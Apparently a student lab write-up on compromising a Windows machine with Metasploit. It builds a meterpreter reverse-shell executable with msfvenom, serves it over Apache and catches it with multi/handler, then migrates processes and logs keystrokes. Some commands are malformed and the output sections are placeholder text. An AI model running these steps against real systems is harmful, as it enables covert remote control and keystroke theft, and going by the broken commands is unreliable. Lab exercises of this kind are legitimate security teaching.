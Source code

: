 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
PROGRAM:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/fb3b9d6f-d93d-4d9e-925f-2461acd7e49b)
Create a malicious executable file fun.exe using msenom command  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder
Start apache server sudo systemctl apache2 start
Check the status of apache2 sudo apache2 status
## output:
ssssssssssssssssssssssssssssssss

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
## output :
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
Post Exploitation:
The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
keyscan_dump Shows the keystrokes captured so far

ssssssssssssssssssssssssss

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
